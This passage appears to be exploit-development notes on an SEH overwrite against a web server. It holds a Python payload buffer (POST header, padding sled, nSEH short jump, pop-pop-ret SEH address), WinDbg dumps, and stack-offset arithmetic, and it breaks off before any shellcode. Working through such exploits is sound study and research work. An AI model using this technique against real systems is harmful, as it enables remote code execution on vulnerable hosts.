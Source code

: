 Very nice, ret will return to the 0x40404040.  


# To SEH or nSEH, that is the question
Not much of a question

Need a small kickback, maybe 0x8 bytes.
```sh
nasm > jmp short 0xf8
00000000  EBF6              jmp short 0xfffffff8
```

```sh
    total_len = 3908
    crash_len = 664-4
    head = "POST / HTTP/1.1\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0a\x0d\x0a"
    sled1 = ("\x40" * crash_len)
    nSEH = "\x90\x90\xeb\xf0"  ## nasm > jmp short 0xf2 / EBF0 jmp short 0xfffffff2
    SEH = "\xd8\x94\x40"  ## 0x4094d8: pop ecx ; pop ecx ; ret ; 
    buf = f"{head}{sled1}{nSEH}{SEH}"
```


Very nice... three dwords worth of space after the short jump.
```sh
0:003> dd eip
00a0fbd8  40404040 40404040 40404040 f0eb9090
```

At this time, the beginning of the usable range is about 648 bytes back
```sh
0:003> dd eip-0n648
00a0f950  40404040 40404040 40404040 40404040
00a0f960  40404040 40404040 40404040 40404040
```

registers
```sh
0:003> r
eax=00000000 ebx=00000000 ecx=00a0f414 edx=775d9280 esi=00000000 edi=00000000
eip=00a0fbd8 esp=00a0f31c ebp=00a0f330 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
```

Need to add about 0x648 hex to esp and jump there. But need to do it in a way that avoids null bytes.  In python:

```python
>>> hex(0x964-0x31c)
'0x648'

>>> hex(0x00a3f31c + 0xfffff648)
'0x100a3e964'
```

Not quite right though, it's about 0x1000 off.
